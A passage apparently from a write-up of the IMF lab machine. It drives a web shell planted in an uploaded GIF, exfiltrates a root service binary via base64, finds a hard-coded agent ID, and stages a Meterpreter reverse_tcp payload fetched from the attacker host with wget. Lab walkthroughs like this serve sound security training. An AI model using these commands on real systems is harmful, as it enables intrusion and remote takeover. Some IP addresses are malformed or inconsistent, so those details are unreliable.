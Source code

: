        disable        = no
       port           = 7788
}
{% endhighlight %}
Looks like /usr/local/bin/agent is a service running.
{% highlight bash %}
curl -v http://172.16.161.1.129/imfadministrator/uploads/c59ca80d5d76.gif?c=ls%20-latr%20/usr/local/bin/agent

-rwxr-xr-x 1 root root 11896 Oct 12 22:39 /usr/local/bin/agent
{% endhighlight %}
The service runs as root, possibly a way in

In order to get a look at the binary I base64 encoded the file contents and saved it to a file locally:
{% highlight bash %}
curl -v http://172.16.161.129/imfadministrator/uploads/c59ca80d5d76.gif?c=base64%20-w%200%20/usr/local/bin/agent
{% endhighlight %}
Then decoded it locally:
{% highlight bash %}
cat agentservice | base64 -d >> agentservicebinary
{% endhighlight %}
and finally decompiled the binary here: https://retdec.com/decompilation-run/

On line 37 it looks like the value: 0x2ddd984 assigns 48093572 to an int32_t variable that is used for checking if an agent's ID (passed into executable as a parameter is equal to 48093572), looks like a broken hard-coded authentication.

Also, I used this to convert the hex to an int:
{% highlight bash %}
echo $((0x2ddd984))
{% endhighlight %}
gave me: 48093572.

Next I create a meterpreter for reverse_tcp handling using msfvenom:
{% highlight bash %}
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=172.16.161.128 LPORT=4444 -f elf > imf-meterpreter
{% endhighlight %}
Now we need to get the file onto the remote machine, wget is probably the easiest.

Setting up a simple web server to host the file:

python -m SimpleHTTPServer

Now run wget on the remote machine:
{% highlight bash %}
curl -v http://172.16.161.129/imfadministrator/uploads/c59ca80d5d76.gif?c=wget%20http://172.16.61.128:8000/imf-meterpreter
{% endhighlight %}
Make the meterpreter runnable:
{% highlight bash %}
curl -v http://172.16.161.129/imfadministrator/uploads/c59ca80d5d76.gif?c=chmod%20777%20imf-meterpreter
curl -v http://172.16.161.129/imfadministrator/uploads/c59ca80d5d76.gif?c=chmod%20a+x%20imf-meterpreter
{% endhighlight %}
Now we have a way to interact with the remote machine in metasploit
